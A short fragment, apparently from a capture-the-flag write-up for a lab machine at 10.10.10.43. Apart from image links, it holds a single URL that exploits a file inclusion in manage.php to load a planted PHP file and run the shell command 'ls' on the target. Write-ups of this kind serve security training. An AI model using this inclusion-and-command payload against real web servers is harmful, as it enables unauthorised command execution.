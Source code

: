 ![](images/19.png)

```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=ls
```

![](images/20.png)
